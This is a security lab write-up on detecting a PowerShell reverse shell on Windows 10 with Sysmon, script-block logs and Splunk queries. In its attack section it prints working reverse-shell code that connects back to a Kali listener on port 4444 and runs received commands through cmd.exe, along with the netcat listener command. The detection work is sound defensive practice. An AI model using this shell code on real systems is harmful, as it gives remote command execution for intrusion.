






# PowerShell Reverse Shell Detection

## Detection Summary

This lab establishes a controlled PowerShell reverse shell from Windows 10 to Kali Linux and investigates it with Sysmon and PowerShell logs in Splunk.

**Outcome:**

- Windows initiated a TCP connection to Kali on port 4444.
- Commands entered on Kali returned the Windows account and computer name.
- Sysmon Event 3 identified the PowerShell process responsible for the connection.
- Sysmon Event 1 linked that process to CMD execution through ProcessGuid and ParentProcessGuid.
- PowerShell Event 4104 exposed connection setup and command-processing code.
- A behavioral SPL query returned one PowerShell process with one outbound network event and three CMD creation events, without hard-coded addresses, ports or GUIDs.

This was authorized lab activity. The correlation is a validated investigation lead, not a production-ready alert or standalone proof of a reverse shell.

---

## Objective

- Establish a reverse connection and execute harmless identification commands.
- Attribute an outbound connection to its originating process.
- Reconstruct parent-child process relationships.
- Inspect script blocks alongside process and network telemetry.
- Develop a behavioral search independent of known test markers.

---

## MITRE ATT&CK

| Technique | ID | Relevance |
|---|---|---|
| Command and Scripting Interpreter: PowerShell | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) | PowerShell hosts the connection and command loop |
| Command and Scripting Interpreter: Windows Command Shell | [T1059.003](https://attack.mitre.org/techniques/T1059/003/) | Received commands execute through cmd.exe /c |
| Non-Application Layer Protocol | [T1095](https://attack.mitre.org/techniques/T1095/) | Commands and output use a direct TCP connection |

Mappings describe the simulated behavior. Initial compromise, privilege escalation and persistence were outside this exercise.

---

## Lab Environment

| Component | Role | Address |
|---|---|---|
| Windows 10 | PowerShell execution, Sysmon and Splunk | 192.168.56.110 |
| Kali Linux | Netcat listener and command input | 192.168.56.111 |
| Sysmon | Process creation and network telemetry | Events 1 and 3 |
| PowerShell Operational log | Script block telemetry | Event 4104 |
| Splunk | Investigation and behavioral correlation | — |

The shell ran as CORP\socadmin. DC01 was not started for this exercise. The existing Windows session and endpoint telemetry were sufficient.

---

## Attack Overview

1. Start a TCP listener on Kali.
2. Manually enter the PowerShell code on Windows.
3. Windows connects back to Kali.
4. Enter whoami and hostname through the listener.
5. PowerShell launches cmd.exe for received commands and returns the output.
6. Trace the connection and command execution in Splunk.
7. Validate a correlation independent of the known test destination.
8. Send exit to end the shell.

The code was executed manually; no delivery exploit or initial-access mechanism was simulated.

---

## Lab Configuration

Sysmon Events 1 and 3 and PowerShell Event 4104 were available in Splunk. A separate connectivity check was used for preparation and is excluded from the reverse-shell evidence.

The exercise used the existing VirtualBox lab network and took place on **October 22, 2026**. Historical searches should cover that date. Relative time ranges in screenshots applied when the searches were run.

---

## Attack Execution

### Kali Listener

```bash
nc -lvnp 4444
```

The listener accepted a connection from **192.168.56.110:50973**.

### Windows PowerShell

The code was entered interactively:

```powershell
$client = [System.Net.Sockets.TcpClient]::new("192.168.56.111", 4444)
$stream = $client.GetStream()
$reader = [System.IO.StreamReader]::new($stream)
$writer = [System.IO.StreamWriter]::new($stream)
$writer.AutoFlush = $true

try {
    $writer.WriteLine("SOC Lab shell connected")

    while ($null -ne ($command = $reader.ReadLine())) {
        if ($command -eq "exit") { break }

        $result = & cmd.exe /c $command 2>&1 | Out-String
        $writer.WriteLine($result)
        $writer.WriteLine("SOC-LAB>")
    }
}
finally {
    $writer.Dispose()
    $reader.Dispose()
    $client.Close()
}
```

TcpClient establishes the connection. StreamReader receives command lines, CMD executes them, and StreamWriter returns results. Each command starts a separate CMD process; working-directory changes do not persist between commands.

### Command Validation

Entered on Kali:

```text
whoami
hostname
exit
```

The output returned CORP\socadmin (lowercase in the terminal) and the Windows computer name. The terminal screenshot preserves the exact output.

---

## Evidence Collected

### Sysmon Event 3 — Network Connection

| Field | Observed Value |
|---|---|
| Image | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe |
| ProcessId | 6332 |
| ProcessGuid | {a4cb93a9-dd7b-6ad9-0003-000000003b00} |
| Process user in payload | CORP\socadmin |
| Protocol | tcp |
| Initiated | true |
| Source | 192.168.56.110:50973 |
| Destination | 192.168.56.111:4444 |
| Payload UtcTime | 2026-10-22 10:07:46.439 |
| Displayed event time | 2026-10-22 13:07:51.361 |

The process user comes from the Sysmon payload. Event-header logging identity fields must not be confused with the process's user.

### Sysmon Event 1 — Process Relationships

PowerShell creation appeared at **12:55:07.732**. Three CMD processes shared its GUID as ParentProcessGuid:

| Displayed Time | Command |
|---|---|
| 13:12:29.728 | cmd.exe /c |
| 13:12:43.948 | cmd.exe /c whoami |
| 13:12:46.542 | cmd.exe /c hostname |

The first entry has no command argument. It remains an observed process creation; the latter two correspond to the named validation commands.

### PowerShell Event 4104 — Script Content

Extracted script blocks show TcpClient, GetStream, StreamReader and StreamWriter setup, the ReadLine loop, execution through cmd.exe /c, WriteLine output and connection disposal.

The setup statements and loop appear in separate script block events. Requiring every indicator in one 4104 record would miss this execution pattern.

---

## Splunk Detection

### Review the Known Test Connection

```spl
index=* source="*Sysmon*" EventCode=3
DestinationIp="192.168.56.111" DestinationPort=4444
| table _time host Image ProcessId ProcessGuid SourcePort DestinationIp DestinationPort Initiated
| sort -_time
```

Source port 50973 linked the event to the listener connection. This is a case-specific investigation query.

### Follow the Process GUID

The following form was validated:

```spl
index=* source="*Sysmon*" EventCode=1
(ProcessGuid={a4cb93a9-dd7b-6ad9-0003-000000003b00}
OR ParentProcessGuid={a4cb93a9-dd7b-6ad9-0003-000000003b00})
| table _time host Image CommandLine ProcessGuid ParentImage ParentProcessGuid
| sort 0 _time
```

### Extract Script Block Code

```spl
index=* EventCode=4104
| rex field=Message "(?s)Creating Scriptblock text \(\d+ of \d+\):\s*(?<script_code>.*?)\s*ScriptBlock ID:"
| table _time host script_code
```

This extracts code from the observed English Message format. It is a display aid rather than a malicious-script classifier.

### Behavioral Correlation

```spl
index=* source="*Sysmon*"
(
    (EventCode=3 Image="*\\powershell.exe" Initiated=true)
    OR
    (EventCode=1 Image="*\\cmd.exe" ParentImage="*\\powershell.exe")
)
| eval powershell_guid=if(EventCode=3, ProcessGuid, ParentProcessGuid)
| stats
    count(eval(EventCode=3)) as network_connections
    count(eval(EventCode=1)) as cmd_processes
    values(DestinationIp) as destination_ips
    values(DestinationPort) as destination_ports
    values(CommandLine) as commands
    by host powershell_guid
| where network_connections>0 AND cmd_processes>0
```

The retained result covers **13:06:45–13:36:45** and contains one matching process group:

| Network Events | CMD Creation Events | Destination IP | Destination Port |
|---|---|---|---|
| 1 | 3 | 192.168.56.111 | 4444 |

The query does not require the lab IP, either port, the known GUID or the "SOC Lab shell connected" marker.

### Report

Report name for reuse: **PowerShell - Outbound Connection and CMD Execution**.

The correlation was executed successfully. No automated alert or report-execution screenshot is included. The lab uses manual searches following expiration of the Splunk Enterprise trial.

---

## Detection Logic

1. Select outbound network events from powershell.exe.
2. Select CMD creation events with powershell.exe as parent.
3. Use ProcessGuid for network events and ParentProcessGuid for CMD events.
4. Group by host and that common PowerShell GUID.
5. Retain groups with at least one network event and one CMD creation event.
6. Review destinations, commands and supporting script content.

This associates both behaviors with one process. It does not alone prove that commands arrived over the network. Listener output and script content provide that additional evidence in this lab.

---

## Detection Workflow

| Displayed Time | Source | Observation |
|---|---|---|
| 12:55:07.732 | Sysmon 1 | PowerShell created |
| 13:07:49.437 | PowerShell 4104 | TcpClient setup statement |
| 13:07:51.361 | Sysmon 3 | Outbound connection event |
| 13:12:29.623 | PowerShell 4104 | Command-processing loop |
| 13:12:29.728 | Sysmon 1 | CMD /c without a command argument |
| 13:12:43.948 | Sysmon 1 | CMD /c whoami |
| 13:12:46.542 | Sysmon 1 | CMD /c hostname |

Displayed timestamps are preserved as recorded. The network event also provides UtcTime 10:07:46.439; this payload timestamp and the displayed event timestamp are different fields and have not been treated as identical.

Investigation proceeded from the connection to its process, child commands and script content. The final query reproduced the association without prior knowledge of the destination.

---

## False Positives and Limitations

- Legitimate administrative scripts can connect outbound and launch CMD.
- The query groups activity across the entire search range. It enforces neither ordering nor a maximum delay between event types.
- Long-lived PowerShell processes can combine unrelated network activity and command execution.
- Counts represent event records and may be inflated by duplicate ingestion.
- This version covers powershell.exe launching cmd.exe, not every interpreter, renamed executable, pwsh.exe or shell implementation.
- Sysmon network logging and the required field extractions must be available.
- Event 4104 reveals code but does not prove successful execution of every statement.
- The correlation does not depend on Event 4104; those records provide supporting context.
- The regex depends on the observed Message format and does not reconstruct multipart script blocks.
- Destination IPs and ports are aggregated separately; multiple values require raw-event review to preserve endpoint pairs.
- Replace index=* with the intended telemetry index for deployment.
- Broader benign-activity validation and production tuning remain future work.

---

## Mitigation

- Restrict unnecessary outbound connectivity and investigate unusual interpreter destinations.
- Use least privilege and separate administrative accounts from routine activity.
- Maintain process, network and PowerShell logging.
- Apply application control and endpoint protection appropriate to the environment.
- During a confirmed incident, preserve evidence, contain the endpoint and investigate the access path and affected credentials.

These are defensive recommendations, not additional controls tested here.

---

## Cleanup

Terminal evidence shows exit being entered; the Windows screenshot shows the PowerShell prompt restored after the loop. The finally block disposes the streams and closes the TCP client.

No persistence mechanism or new account was created. The existing socadmin account was retained. Final housekeeping is to close the test PowerShell window and stop any listener still running; no separate verification screenshot was collected for those actions.

---

## Screenshots

Six original screenshots are included in screenshots/. Duplicate-upload suffixes were removed from filenames; image contents were preserved.

### 01 — Windows Reverse Shell Script



### 02 — Reverse Shell Command Results



### 03 — Sysmon Network Connection



### 04 — Parent GUID Follow-up



### 05 — Script Block Logging



### 06 — Behavioral Correlation



---

## Lessons Learned

- A reverse shell has the endpoint initiate the connection to the listener.
- TCP connectivity alone does not establish remote command execution.
- ProcessGuid and ParentProcessGuid connect network activity with process ancestry.
- Interactive code may be distributed across multiple script block events.
- Known test markers help investigation but should not define a reusable detection.
- Combining network, process, script and terminal evidence supports stronger conclusions.
- A successful lab result is a starting point for false-positive testing and tuning.
